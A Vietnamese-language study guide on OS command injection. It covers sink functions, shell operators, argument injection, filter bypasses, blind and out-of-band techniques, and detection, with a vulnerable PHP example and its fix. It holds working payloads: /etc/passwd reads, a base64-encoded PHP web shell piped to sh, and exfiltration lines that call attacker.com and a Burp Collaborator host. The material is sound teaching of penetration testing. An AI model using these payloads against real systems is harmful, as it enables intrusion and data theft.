



# Command Injection

## Tài liệu tham khảo

[owasp.org/www-community/attacks/Command_Injection](https://owasp.org/www-community/attacks/Command_Injection)

[portswigger.net/web-security/os-command-injection](https://portswigger.net/web-security/os-command-injection)

[viblo.asia/p/os-command-injection-vulnerabilities-cac-lo-hong-command-injection-phan-1-BQyJK3KRJMe](https://viblo.asia/p/os-command-injection-vulnerabilities-cac-lo-hong-command-injection-phan-1-BQyJK3KRJMe)

[ctf101.org/web-exploitation/command-injection/what-is-command-injection](https://ctf101.org/web-exploitation/command-injection/what-is-command-injection/)

## Bố cục nội dung

```
Command Injection
│
├── Ôn tập kiến thức nền
│   ├── Phân biệt Programming Runtime và Operating System
│   ├── Khái niệm thực thi mã độc từ xa (RCE)
│   ├── Bản chất và phân loại Shell
│   ├── Phân biệt Command Injection, Code Injection và Argument Injection
│   └── Sơ đồ luồng xử lý tổng quan
│
├── Lỗ hổng Command Injection
│   ├── Khái niệm chi tiết
│   ├── Nguyên nhân gốc rễ
│   ├── Điều kiện khai thác thành công
│   ├── Luồng đi của dữ liệu
│   └── Ví dụ thực tế và cách khắc phục
│
├── Điểm tiếp nhận lệnh hệ thống (Command Sink)
│   ├── Các hàm nhạy cảm trong ngôn ngữ PHP
│   ├── Các hàm nhạy cảm trong ngôn ngữ Python
│   ├── Các hàm nhạy cảm trong ngôn ngữ Java
│   ├── Các hàm nhạy cảm trong môi trường Node.js
│   ├── Các hàm nhạy cảm trong ngôn ngữ C và C++
│   └── So sánh thực thi qua Shell và gọi trực tiếp
│
├── Vì sao các hàm tiếp nhận lệnh lại nhạy cảm
│   ├── Bề mặt tác động của Shell
│   ├── Khả năng tương tác trực tiếp với nhân hệ điều hành
│   ├── Chạy với đặc quyền của tiến trình máy chủ
│   └── Thiếu sự phân biệt giữa mã lệnh và dữ liệu
│
├── Các toán tử của Shell và cơ chế phân tách cú pháp
│   ├── Bảng toán tử hệ điều hành Linux
│   ├── Bảng toán tử hệ điều hành Windows
│   └── Cơ chế thay thế lệnh và xử lý ký tự xuống dòng
│
├── Lỗ hổng chèn tham số (Argument Injection)
│   ├── Định nghĩa bản chất
│   ├── Khai thác qua tham số của curl và wget
│   ├── Thực thi lệnh qua tùy chọn của tar, find và ssh
│   └── Tình huống thực tế minh họa
│
├── Kỹ thuật vượt qua bộ lọc (Bypass Techniques)
│   ├── Whitespace Bypass
│   ├── Keyword Bypass
│   ├── Character Bypass
│   ├── Path Bypass
│   ├── Encoding Bypass
│   ├── Environment Bypass
│   ├── Expansion Bypass
│   └── Substitution Bypass
│
├── Kỹ thuật khai thác gián tiếp (Blind Command Injection)
│   ├── Khai thác dựa trên độ trễ thời gian
│   ├── Khai thác bằng phương pháp ghi tệp tin (File based Exfiltration)
│   ├── Khai thác qua kết nối kênh ngoài (Out of band)
│   └── Sơ đồ chi tiết quy trình gọi kênh ngoài
│
├── Tác động bảo mật (Impact)
│   ├── Lộ lọt thông tin (Information Disclosure)
│   ├── Đọc ghi tệp tin tùy ý (Arbitrary File Read và Arbitrary File Write)
│   ├── Leo thang đặc quyền (Privilege Escalation)
│   └── Kết nối ngược và Duy trì truy cập (Reverse Shell và Persistence)
│
├── Phương pháp phát hiện (Detection)
│   ├── Phát hiện thụ động (Passive Detection)
│   ├── Phát hiện chủ động (Active Detection)
│   ├── Phát hiện gián tiếp (Blind Detection)
│   └── Phát hiện kênh ngoài (OOB Detection)
│
├── Các tình huống thực tế phổ biến (Case Study)
│   ├── Chức năng Ping và Traceroute trên thiết bị mạng
│   ├── Chức năng DNS Lookup và WHOIS trên giao diện quản trị
│   ├── Chức năng chuyển đổi tệp tin hình ảnh hoặc video
│   ├── Lỗ hổng trên thiết bị phần cứng IoT
│   └── Lỗ hổng trong CI/CD, Docker, Git hooks và kịch bản sao lưu
│
└── Danh sách kiểm tra lỗi (Pentest Checklist)
    ├── Các tham số đầu vào cần rà soát
    ├── Dấu hiệu nhận biết qua thông báo lỗi
    └── Cheat sheet lệnh kiểm tra nhanh
```

## Ôn tập kiến thức nền tảng

### Phân biệt Programming Runtime và Operating System

Môi trường vận hành của chương trình máy tính được chia làm hai tầng xử lý rõ rệt:

* Môi trường vận hành của ngôn ngữ lập trình (Programming Runtime): Cung cấp hạ tầng logic để biên dịch hoặc thông dịch mã nguồn ứng dụng. Các ví dụ điển hình bao gồm Java Virtual Machine (JVM), Common Language Runtime (CLR), Node Runtime cho Javascript, hoặc PHP Runtime.
* Hệ điều hành (Operating System): Quản lý các tài nguyên vật lý của máy tính. Tầng này bao gồm nhân hệ điều hành (Kernel), cơ chế quản lý tiến trình (Process), hệ thống tệp tin (File System) và quản lý kết nối mạng (Network). Các hệ thống như Linux hay Windows thuộc tầng này và không gọi là môi trường vận hành của ngôn ngữ.

### Khái niệm thực thi mã độc từ xa (RCE)

Thực thi mã từ xa là hậu quả bảo mật nghiêm trọng cho phép kẻ tấn công chạy các câu lệnh hệ thống tùy ý trên máy chủ mục tiêu thông qua kết nối mạng.

RCE đại diện cho kết quả cuối cùng của việc khai thác thành công một lỗi bảo mật, không phải là tên của một lỗ hổng cụ thể.

Sơ đồ biểu diễn các lỗi bảo mật dẫn đến hậu quả thực thi mã từ xa (RCE):

```
Command Injection  ====> Remote Code Execution
File Upload        ====> Remote Code Execution
Deserialization    ====> Remote Code Execution
Template Injection ====> Remote Code Execution
```

### Bản chất và phân loại Shell

Shell là một chương trình phần mềm làm nhiệm vụ tiếp nhận các yêu cầu dạng văn bản để chuyển giao cho nhân hệ điều hành xử lý.

Các nhiệm vụ cốt lõi của Shell bao gồm:

* Phân tách câu lệnh hệ thống (Parse command).
* Xử lý các toán tử điều khiển điều hướng câu lệnh (Parse operator).
* Khai triển giá trị của các biến môi trường (Variable expansion).
* Khai triển ký tự đại diện để tìm kiếm tệp tin (Wildcard expansion).
* Khởi chạy tiến trình mới từ các tệp lệnh tương ứng (Execute process).

Các loại shell thông dụng bao gồm bash trên Linux hoặc CMD và PowerShell trên Windows.

### Đối chiếu Command Injection, Code Injection và Argument Injection

Ba loại lỗ hổng này có sự khác biệt rõ rệt về cơ chế và tầng xử lý dữ liệu:

* Command Injection: Dữ liệu của người dùng được đưa trực tiếp vào câu lệnh hệ thống để shell phân tích. Shell hiểu nhầm các ký tự đặc biệt là toán tử điều khiển để thực thi thêm các câu lệnh mới trên hệ điều hành.
* Code Injection: Dữ liệu người dùng được đưa vào hàm thực thi mã nguồn của chính ngôn ngữ lập trình đó. Đoạn mã chèn thêm sẽ chạy trực tiếp trong tiến trình của ứng dụng web mà không gọi lệnh hệ thống.
* Argument Injection: Ứng dụng đã kiểm soát các toán tử của shell để chặn chèn lệnh mới. Tuy nhiên kẻ tấn công vẫn chèn thêm các cờ tham số (flags) của chính câu lệnh gốc để thay đổi hành vi hoạt động của chương trình.

### Sơ đồ luồng xử lý tổng quan

Luồng xử lý từ trình duyệt người dùng đến khi tiến trình hệ thống thực thi lệnh được mô tả qua sơ đồ dưới đây:



## Lỗ hổng Command Injection

### Khái niệm chi tiết

Lỗ hổng chèn lệnh xuất hiện khi một ứng dụng chuyển tiếp dữ liệu không an toàn do người dùng cung cấp đến một trình thông dịch shell hệ thống để thực thi một chương trình có sẵn trên máy chủ.

### Nguyên nhân gốc rễ từ phân tách cú pháp shell

Nguyên nhân cốt lõi là do ứng dụng không phân định rõ ràng giữa phần mã lệnh cố định và phần dữ liệu động do người dùng truyền vào.

Trình thông dịch shell thực hiện phân tách cú pháp dựa trên các ký tự đặc biệt.

Khi dữ liệu người dùng chứa các ký tự này, shell sẽ coi đó là một phần cấu trúc cú pháp của câu lệnh và thực thi toàn bộ chuỗi lệnh chèn thêm với đặc quyền của tiến trình máy chủ web.

### Điều kiện để khai thác thành công

Quá trình khai thác lỗ hổng chèn lệnh chỉ thành công khi hội tụ đủ bốn yếu tố sau:

* Ứng dụng sử dụng một hàm hệ thống có khả năng gọi shell để chạy lệnh.
* Dữ liệu đầu vào của người dùng được đưa vào tham số của hàm mà không qua kiểm tra hoặc lọc bỏ ký tự đặc biệt.
* Tiến trình máy chủ web có đủ quyền hạn trên hệ điều hành để chạy các câu lệnh hệ thống mà kẻ tấn công chèn vào.
* Trình thông dịch shell phải phân tách được chuỗi đầu vào. Nếu ứng dụng sử dụng các hàm thực thi trực tiếp tiến trình không thông qua shell (như execve), shell sẽ không phân tách cú pháp và lỗi chèn lệnh sẽ không xảy ra.

### Luồng đi của dữ liệu

Luồng phân tích dữ liệu chuẩn trong ứng dụng web an toàn trải qua các giai đoạn sau:



### Ví dụ thực tế về mã nguồn lỗi và cách khắc phục an toàn

Dưới đây là ví dụ minh họa bằng ngôn ngữ lập trình PHP:

* Ví dụ mã nguồn có chứa lỗ hổng bảo mật:

```php
<?php
// lay du lieu tu tham so yeu cau kiem tra ket noi mang
$ip = $_GET['ip'];

// thuc thi truc tiep lenh he thong ma khong qua kiem tra
$output = shell_exec('ping -c 4 ' . $ip);
/*
ping -c 4 . ip; (linux only)

-c: count -> đếm số gói tin gửi đi. Nếu không, ping sẽ gửi gói tin không ngừng cho đến khi nhấn Ctrl C
4: số gói tin gửi đi
.: toán tử nối chuỗi (ghep ip vào command)

*/

// hien thi ket qua ra man hinh
echo "<pre>$output</pre>";
?>
```

Kẻ tấn công có thể chèn tham số `ip=127.0.0.1; whoami` để buộc hệ thống thực thi lệnh hiển thị quyền hạn người dùng sau khi chạy xong lệnh ping.

* Ví dụ cấu trúc mã nguồn an toàn:

```php
<?php
$ip = $_GET['ip'];

// xac thuc kieu du lieu dau vao de dam bao chi nhan dia chi IP hop le
if (filter_var($ip, FILTER_VALIDATE_IP)) {
    // lam sach tham so de loai bo cac ky tu dieu khien cua shell
    $safe_ip = escapeshellarg($ip);
  
    // thuc thi lenh voi tham so da duoc bao ve an toan
    $output = shell_exec('ping -c 4 ' . $safe_ip);
    echo "<pre>$output</pre>";
} else {
    echo 'Dia chi IP khong hop le';
}
?>
```

## Điểm tiếp nhận lệnh hệ thống (Command Sink)

### Các hàm nhạy cảm trong ngôn ngữ PHP

Ngôn ngữ PHP cung cấp nhiều hàm gọi shell hệ thống trực tiếp:

* `system()`: Thực thi lệnh hệ thống và hiển thị kết quả trực tiếp ra màn hình.
* `exec()`: Thực thi lệnh hệ thống và trả về dòng cuối cùng của kết quả.
* `shell_exec()`: Thực thi lệnh hệ thống và trả về toàn bộ kết quả dưới dạng chuỗi.
* `passthru()`: Thực thi lệnh hệ thống và truyền thẳng kết quả thô về trình duyệt.
* `popen()` và `proc_open()`: Mở một tiến trình liên kết để đọc hoặc ghi dữ liệu.
* Toán tử dấu nháy ngược: Có hành vi tương tự như hàm `shell_exec()`.

### Các hàm nhạy cảm trong ngôn ngữ Python

Trong Python, các hàm sau có thể gây nguy hiểm:

* `os.system()`: Thực thi lệnh trong một subshell hệ thống.
* `os.popen()`: Mở một đường ống kết nối với câu lệnh hệ thống.
* `subprocess.run(shell=True)`: Chạy lệnh hệ thống thông qua shell.
* `subprocess.Popen(shell=True)`: Tạo một tiến trình con thông qua shell.

### Các hàm nhạy cảm trong ngôn ngữ Java

Ngôn ngữ Java tương tác với hệ điều hành qua các lớp đối tượng:

* `Runtime.getRuntime().exec()`: Điểm đặc biệt cần lưu ý là hàm này **không** tự động khởi chạy shell hệ thống để xử lý cú pháp. Ví dụ, câu lệnh `Runtime.getRuntime().exec('ls')` sẽ tìm và chạy tệp tin thực thi ls trực tiếp trên hệ thống mà không gọi sh. Các toán tử chèn lệnh như `;` hay `&&` sẽ không hoạt động. Để gọi shell xử lý cú pháp chèn lệnh, lập trình viên phải gọi tường minh bằng mảng tham số:

```java
Runtime.getRuntime().exec(new String[]{"/bin/sh", "-c", payload});
```

* `ProcessBuilder`: Thiết lập cấu hình và khởi chạy tiến trình hệ thống.

### Các hàm nhạy cảm trong môi trường Node.js

Node.js sử dụng mô-đun child_process để quản lý tiến trình:

* `child_process.exec()`: Tạo một shell để thực thi lệnh và lưu kết quả vào bộ đệm.
* `child_process.execSync()`: Phiên bản đồng bộ của hàm exec.
* `child_process.spawn()` khi cấu hình tham số `shell: true`.

### Các hàm nhạy cảm trong ngôn ngữ C và C++

Ngôn ngữ C và C++ gọi trực tiếp các hàm hệ thống của thư viện tiêu chuẩn:

* `system()`: Chuyển chuỗi lệnh cho shell hệ thống thực thi.
* `popen()`: Khởi tạo tiến trình và thiết lập đường ống truyền dữ liệu.

### So sánh cơ chế thực thi qua Shell và gọi trực tiếp không qua Shell

Đây là kiến thức quan trọng để phòng chống lỗi chèn lệnh triệt để:

* Thực thi qua Shell (Shell Execution): Ứng dụng gọi shell (như bash hoặc cmd) để chạy câu lệnh. Shell sẽ phân tách toàn bộ chuỗi đầu vào theo các toán tử đặc biệt. Cơ chế này cực kỳ nguy hiểm nếu dữ liệu đầu vào chứa mã độc.
* Gọi trực tiếp không qua Shell (Direct Execution): Ứng dụng sử dụng các lời gọi hệ thống trực tiếp (như execve) bằng cách truyền lệnh gốc và các tham số dưới dạng một mảng các chuỗi ký tự độc lập. Hệ điều hành sẽ nạp thẳng các tham số này vào bộ nhớ của tiến trình mới mà không qua bước phân tách cú pháp của shell. Vì vậy, các ký tự đặc biệt sẽ được hiểu là dữ liệu thô, loại bỏ hoàn toàn khả năng chèn lệnh.

## Vì sao các hàm tiếp nhận lệnh lại nhạy cảm

Các hàm tiếp nhận lệnh hệ thống được coi là nhạy cảm vì chúng sở hữu những khả năng can thiệp sâu vào hệ thống. Khi kiểm soát được shell, kẻ tấn công có quyền tương tác với mọi bề mặt sau:

* Quyền hạn (Privilege): Thực thi các câu lệnh với đặc quyền của người dùng chạy tiến trình máy chủ web.
* Môi trường (Environment): Đọc và sửa đổi các thông tin biến môi trường hệ thống.
* Hệ thống tệp tin (Filesystem): Thực hiện các hành vi đọc, ghi và xóa tệp tin trên ổ đĩa cứng.
* Mạng kết nối (Network): Khởi tạo các kết nối ra bên ngoài máy chủ hoặc thiết lập các cổng lắng nghe kết nối mới.
* Tiến trình (Process): Khởi chạy các tiến trình độc lập hoặc can thiệp vào các tiến trình khác đang hoạt động.

## Các toán tử của Shell và cơ chế phân tách cú pháp

### Bảng toán tử hệ điều hành Linux

| Toán tử               | Ý nghĩa hoạt động                                                          |
| ----------------------- | ------------------------------------------------------------------------------- |
| `;`                   | Chạy các câu lệnh tuần tự không phụ thuộc vào kết quả lệnh trước |
| `\|`                   | Chuyển kết quả đầu ra của lệnh trước làm đầu vào cho lệnh sau     |
| `&&`                  | Chỉ chạy lệnh sau nếu lệnh trước thực thi thành công                  |
| `\|\|`                  | Chỉ chạy lệnh sau nếu lệnh trước thực thi thất bại                    |
| `&`                   | Chạy câu lệnh đầu tiên dưới dạng tiến trình chạy ẩn                |
| `( )`                 | Nhóm các câu lệnh để thực thi trong một subshell riêng biệt           |
| `{ }`                 | Nhóm các câu lệnh để thực thi trong shell hiện tại                     |
| `$()` hoặc `` ` ` `` | Thay thế câu lệnh bằng cách thực thi lệnh bên trong trước             |

### Bảng toán tử hệ điều hành Windows

| Toán tử | Ý nghĩa hoạt động                                                          |
| --------- | ------------------------------------------------------------------------------- |
| `&`     | Liên kết và chạy tuần tự các câu lệnh trên cùng một dòng           |
| `\|`     | Chuyển hướng đầu ra của câu lệnh trước vào đầu vào lệnh sau      |
| `&&`    | Chỉ thực thi lệnh sau khi lệnh trước thành công                         |
| `\|\|`    | Chỉ thực thi lệnh sau khi lệnh trước thất bại                           |
| `^`     | Ký tự thoát dùng để bỏ qua ý nghĩa đặc biệt của ký tự đứng sau |
| `%`     | Dùng để trích xuất giá trị của các biến môi trường hệ thống      |
| `!`     | Khai triển biến động khi chế độ Delayed Expansion được kích hoạt    |

### Cơ chế thay thế lệnh và xử lý ký tự xuống dòng

* Thay thế câu lệnh (Command Substitution): Cho phép kết quả của một lệnh được lồng vào làm tham số của một lệnh khác. Sử dụng cú pháp dấu nháy ngược hoặc biểu thức `$()`.
* Ký tự xuống dòng: Shell coi ký tự xuống dòng là điểm kết thúc của một câu lệnh và bắt đầu một câu lệnh mới. Trên môi trường ứng dụng web, ký tự này thường được truyền vào dưới dạng mã hóa URL là `%0a` hoặc `%0d`.

## Lỗ hổng chèn tham số (Argument Injection)

### Định nghĩa bản chất

Lỗ hổng chèn tham số xảy ra khi ứng dụng đã kiểm soát dữ liệu đầu vào để ngăn chặn các toán tử shell thông thường.

Tuy nhiên ứng dụng vẫn cho phép truyền trực tiếp các giá trị do người dùng nhập vào làm đối số của một câu lệnh hệ thống cố định.

Kẻ tấn công lợi dụng điều này để chèn thêm các tùy chọn cấu hình của chính chương trình đó nhằm thực hiện các hành vi trái phép.

### Khai thác ghi đọc tệp tin qua tham số của curl và wget

* Đối với lệnh curl: Kẻ tấn công chèn thêm tùy chọn `-o` kèm theo đường dẫn tệp tin để ghi đè dữ liệu tải về vào một vị trí tùy ý trên hệ thống máy chủ. Ví dụ như ghi đè tệp tin cấu hình hoặc ghi webshell vào thư mục tĩnh.
* Đối với lệnh wget: Chèn thêm tùy chọn `--directory-prefix` hoặc `-O` để kiểm soát vị trí lưu trữ và tên của tệp tin tải xuống.

### Thực thi lệnh thông qua tùy chọn của tar, find và ssh

* Lệnh tar: Có tùy chọn `--checkpoint` cho phép chạy một chương trình khác khi tar đạt đến một điểm kiểm tra nhất định trong quá trình nén hoặc giải nén.
* Lệnh find: Cung cấp tùy chọn `-exec` để chạy trực tiếp một lệnh hệ điều hành trên các tệp tin tìm thấy.
* Lệnh ssh: Sử dụng tùy chọn `-o` để thiết lập các cấu hình kết nối nhạy cảm như thực thi lệnh cục bộ thông qua tùy chọn cấu hình ProxyCommand.

### Tình huống thực tế minh họa

Một chức năng tải tệp tin từ xa sử dụng câu lệnh cố định:

`curl $url`

Nếu ứng dụng chỉ kiểm tra và cấm các ký tự đặc biệt của shell nhưng cho phép kẻ tấn công truyền giá trị url là:

`http://attacker.com/shell.txt -o uploads/shell.php`

Hệ thống sẽ thực thi câu lệnh tải mã độc từ máy chủ ngoài và ghi đè vào thư mục tải lên dưới dạng tệp tin PHP hoạt động.

## Kỹ thuật vượt qua bộ lọc (Bypass Techniques)

### Whitespace Bypass

Vượt qua bộ lọc khi khoảng trắng bị cấm hoặc loại bỏ:

* Sử dụng biến môi trường mặc định đại diện cho khoảng trắng trên Linux là `$IFS` hoặc `${IFS}`.
* Sử dụng dấu ngoặc nhọn bao quanh lệnh và các đối số trong shell bash, ví dụ `{cat,/etc/passwd}`.
* Sử dụng ký tự chuyển hướng đầu vào `<` để thay thế khoảng trắng khi đọc file, ví dụ `cat</etc/passwd`.

### Keyword Bypass

Vượt qua bộ lọc khi các từ khóa nhạy cảm bị đưa vào danh sách đen:

* Sử dụng kỹ thuật nối chuỗi ký tự bằng dấu nháy đơn hoặc nháy kép, ví dụ `c'a't` hoặc `w"h"oami`.
* Sử dụng ký tự gạch chéo ngược để ngắt dòng phân tích từ khóa của bộ lọc, ví dụ `ca\t`.

### Character Bypass

Vượt qua bộ lọc khi các ký tự cụ thể bị hạn chế:

* Sử dụng các ký tự đại diện wildcard như `*` hoặc `?` để hệ thống tự động tìm kiếm đường dẫn chương trình, ví dụ `/bin/c?t /etc/pa??wd`.

### Path Bypass

Vượt qua bộ lọc khi ký tự gạch chéo bị cấm để chặn đường dẫn tuyệt đối:

* Lợi dụng tính năng cắt chuỗi của các biến môi trường hệ thống có sẵn. Ví dụ sử dụng biểu thức `${PATH:0:1}` trên Linux để lấy ký tự gạch chéo đầu tiên trong đường dẫn của biến PATH.

### Encoding Bypass

Vượt qua bộ lọc bằng cách mã hóa câu lệnh để tránh sự phát hiện của tường lửa ứng dụng:

* Sử dụng chuỗi mã hóa Base64 và giải mã trực tiếp trong câu lệnh thực thi, ví dụ: `echo PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4 | base64 -d | sh`.

### Environment Bypass

Sử dụng cơ chế gán và gọi biến môi trường động để xây dựng câu lệnh:

* Định nghĩa từ khóa qua các biến môi trường rồi gọi thực thi, ví dụ `a=ca; b=t; $a$b /etc/passwd`.

### Expansion Bypass

Lợi dụng các cơ chế khai triển cú pháp của shell để tạo lệnh thực thi phức tạp từ các ký tự cơ bản.

### Substitution Bypass

Sử dụng cơ chế thay thế câu lệnh để lồng lệnh thực thi vào tham số của chương trình gốc thông qua cú pháp `$()` hoặc dấu nháy ngược.

## Kỹ thuật khai thác gián tiếp (Blind Command Injection)

Lỗ hổng chèn lệnh gián tiếp xuất hiện khi ứng dụng web thực thi lệnh hệ thống dưới nền nhưng không hiển thị bất kỳ kết quả đầu ra nào của câu lệnh trên giao diện phản hồi.

Để xác nhận và khai thác thành công, người kiểm thử phải sử dụng các kỹ thuật gián tiếp để lấy thông tin hoặc xác minh lỗ hổng.

### Khai thác dựa trên độ trễ thời gian (Time based Blind OS Command Injection)

Phương pháp này dựa trên việc đo lường khoảng thời gian máy chủ web cần để xử lý và trả về phản hồi HTTP.

Nếu một câu lệnh được chèn vào bắt máy chủ phải tạm dừng hoạt động trong một khoảng thời gian xác định, và thời gian phản hồi thực tế của ứng dụng tăng lên tương ứng, lỗ hổng được xác nhận tồn tại.

* Khai thác trên môi trường Linux: Sử dụng lệnh `sleep` kèm theo số giây cần tạm dừng. Ví dụ: `sleep 10` sẽ dừng hệ thống trong 10 giây.

* Khai thác trên môi trường Windows: Sử dụng lệnh `ping` gửi các gói tin tuần tự trỏ về địa chỉ vòng lặp. Cú pháp `ping -n 11 127.0.0.1` sẽ gửi 11 gói tin, mỗi gói tin cách nhau 1 giây, tạo ra tổng thời gian trễ khoảng 10 giây trên hệ thống.

* Các toán tử chèn phổ biến: Thường sử dụng toán tử song song `||` hoặc toán tử tuần tự `;` hoặc toán tử chạy ẩn `&` để lồng ghép câu lệnh trễ vào tham số bị lỗi. Ví dụ: `email=x||sleep+10||` hoặc `email=x;sleep+10;`.

### Khai thác bằng phương pháp ghi tệp tin (File based Exfiltration)

Khi kết quả câu lệnh không hiển thị nhưng ứng dụng web cho phép người dùng truy cập trực tiếp vào các tệp tin tĩnh trong một thư mục công khai (như thư mục chứa hình ảnh hoặc tệp tin tải lên).

Người kiểm thử có thể ghi kết quả của câu lệnh hệ thống vào một tệp tin mới nằm trong thư mục này, sau đó dùng trình duyệt để đọc nội dung tệp tin đó.

* Quy trình thực hiện chi tiết:
1. Xác định một thư mục công khai trên ứng dụng web có quyền ghi tệp tin. Các thư mục thường gặp là `/var/www/images/` hoặc `uploads/`.
2. Sử dụng toán tử chuyển hướng đầu ra `>` để ghi kết quả lệnh vào một tệp tin tĩnh (như tệp tin văn bản hoặc tệp tin mã nguồn). Ví dụ: `|| whoami > /var/www/images/output.txt ||`.
3. Sử dụng trình duyệt truy cập đường dẫn tĩnh của tệp tin vừa tạo để lấy kết quả. Ví dụ: `http://target.com/images/output.txt`.

### Khai thác qua kết nối kênh ngoài (Out of band Callbacks)

Khi máy chủ mục tiêu bị chặn hiển thị hoàn toàn và không cho phép ghi tệp tin tĩnh lên đĩa, nhưng hệ điều hành của máy chủ vẫn được phép thực hiện các kết nối mạng đi ra ngoài (Outbound Connections).

Người kiểm thử sử dụng một máy chủ trung gian do mình kiểm soát (như hệ thống Burp Collaborator) để lắng nghe các kết nối ngược về.

Kỹ thuật này được chia làm hai mức độ:

1. Xác minh tương tác kênh ngoài (OOB Interaction):
* Sử dụng các lệnh hệ thống để thực hiện truy vấn tên miền trỏ về máy chủ giám sát.
* Các lệnh thường dùng gồm nslookup, dig hoặc host trên Linux và nslookup trên Windows.
* Ví dụ payload chèn lệnh: `|| nslookup x.burpcollaborator.net ||`. Nếu máy chủ giám sát nhận được truy vấn DNS, lỗ hổng được xác nhận.

2. Trích xuất dữ liệu kênh ngoài (OOB Data Exfiltration):
* Kẻ tấn công lồng ghép kết quả của câu lệnh hệ thống trực tiếp vào yêu cầu kết nối gửi ra ngoài để thu thập thông tin nhạy cảm.
* Trích xuất thông qua truy vấn DNS: Lồng câu lệnh con làm nhãn tên miền phụ (subdomain). Khi máy chủ thực hiện truy vấn DNS, kết quả lệnh sẽ được gửi đi dưới dạng một phần của tên miền. Ví dụ: `|| nslookup $(whoami).x.burpcollaborator.net ||`. Kẻ tấn công đọc nhật ký truy vấn DNS của máy chủ tên miền để lấy thông tin.
* Trích xuất thông qua yêu cầu HTTP: Đưa kết quả câu lệnh vào tham số truy vấn hoặc header của yêu cầu HTTP gửi đi. Ví dụ: `|| curl http://attacker.com/$(whoami) ||` hoặc sử dụng lệnh wget truyền dữ liệu thô.

### Sơ đồ chi tiết quy trình gọi kênh ngoài

Quy trình tương tác kênh ngoài được thể hiện qua sơ đồ tuần tự dưới đây:



## Tác động bảo mật (Impact)

Lỗ hổng Command Injection có mức độ tác động rất cao và có thể dẫn đến việc kiểm soát toàn diện máy chủ:

* Lộ lọt thông tin (Information Disclosure): Truy cập các thông tin cấu hình nhạy cảm, thông tin tài khoản hoặc dữ liệu nội bộ của hệ thống.
* Đọc tệp tin tùy ý (Arbitrary File Read): Sử dụng các câu lệnh đọc tệp tin để lấy thông tin nhạy cảm của hệ điều hành như tệp tin passwd hoặc các tệp tin mã nguồn của ứng dụng.
* Ghi tệp tin tùy ý (Arbitrary File Write): Cho phép ghi đè các cấu hình hệ thống quan trọng hoặc ghi mã độc webshell vào thư mục chứa mã nguồn để kích hoạt quyền truy cập từ xa.
* Leo thang đặc quyền (Privilege Escalation): Kẻ tấn công thực thi các lệnh hệ thống để tìm kiếm lỗi bảo mật của hạt nhân hệ điều hành, sau đó chạy mã khai thác nâng quyền hạn lên tài khoản quản trị cao nhất.
* Kết nối ngược (Reverse Shell): Khởi tạo một phiên kết nối mạng từ máy chủ mục tiêu ngược về thiết bị của kẻ tấn công. Thiết lập này cho phép nhập lệnh tương tác trực tiếp mà không cần đi qua ứng dụng web.
* Duy trì truy cập (Persistence): Thiết lập các cơ chế khởi chạy tự động định kỳ bằng cronjob hoặc thêm tài khoản người dùng mới vào hệ điều hành nhằm giữ quyền truy cập lâu dài.
* Thực thi mã từ xa hoàn toàn (Full Remote Code Execution): Đạt được quyền kiểm soát toàn diện đối với máy chủ bị tổn thương, làm bàn đạp để tấn công sâu hơn vào mạng nội bộ của tổ chức.

## Phương pháp phát hiện (Detection)

Quá trình phát hiện lỗi chèn lệnh có thể được áp dụng bằng nhiều phương pháp khác nhau tùy thuộc vào điều kiện tiếp cận:

* Phát hiện thụ động (Passive Detection): Thực hiện rà soát tĩnh mã nguồn ứng dụng (White box review) để tìm kiếm các điểm tiếp nhận dữ liệu nhạy cảm là các hàm thực thi lệnh hệ thống. Đồng thời kiểm tra xem các tham số đầu vào có đi qua bước xử lý làm sạch dữ liệu nào hay không.
* Phát hiện chủ động (Active Detection): Gửi các chuỗi ký tự thử nghiệm chứa các toán tử phân tách lệnh thông thường và kiểm tra xem kết quả thực thi có xuất hiện trực tiếp trên giao diện phản hồi của ứng dụng hay không.
* Phát hiện gián tiếp (Blind Detection): Sử dụng các câu lệnh thử nghiệm gây trễ thời gian phản hồi. Quan sát sự thay đổi của mã trạng thái phản hồi HTTP, các tiêu đề phản hồi đặc thù, hoặc sự chênh lệch về độ dài nội dung phản hồi để suy luận ra sự tồn tại của lỗ hổng.
